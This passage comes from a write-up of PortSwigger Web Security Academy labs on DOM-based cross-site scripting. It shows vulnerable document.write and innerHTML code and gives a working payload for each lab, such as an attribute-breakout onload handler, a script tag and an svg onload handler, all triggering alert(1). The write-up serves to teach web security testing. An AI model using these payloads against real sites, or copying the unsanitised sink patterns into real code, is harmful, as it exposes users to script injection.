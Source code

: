 As an attacker, we just need to escape from the enclosing double-quote `"` and inject our XSS payload. For example, here we can use the `onload` event inside the `<img>` and trigger an alert.

**Solution**

```
" onload=alert(1) "
```

### Lab 04 - DOM XSS in document.write sink using source location.search inside a select element

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

This lab is similar to the DOM XSS presented in [lab 03](#lab-03---dom-xss-in-documentwrite-sink-using-source-locationsearch). The user input will be injected to a `document.write` sink without any sanitization.

Our payload will be written to the DOM as follows: `<option selected>**PAYLOAD**</option>`
```
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
	if(stores[i] === store) {
		continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

**Solution**

```
<script>alert(1)</script>
```

### Lab 05 - DOM XSS in innerHTML sink using source location.search

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

This lab is similar to the DOM XSS presented in [lab 03](#lab-03---dom-xss-in-documentwrite-sink-using-source-locationsearch). The user input will be injected to a `innerHTML` sink instead.

**Solution**

```
<svg/onload=alert`1`>
```

### Lab 06 - DOM XSS in jQuery anchor href attribute sink using location.search source
